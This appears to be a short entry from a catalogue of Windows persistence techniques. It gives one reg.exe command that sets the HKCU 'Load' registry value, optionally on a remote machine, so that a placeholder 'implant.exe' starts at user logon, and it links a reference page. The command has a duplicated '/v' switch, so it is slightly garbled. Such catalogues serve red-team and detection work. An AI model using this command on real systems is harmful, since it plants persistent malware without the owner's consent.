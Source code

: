 # HKCU `Load`

## Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v /v Load /t REG_SZ /d "C:\path\to\implant.exe"
```

---
## References

- [Persistence Info: HKCU `Load`](https://persistence-info.github.io/Data/windowsload.html)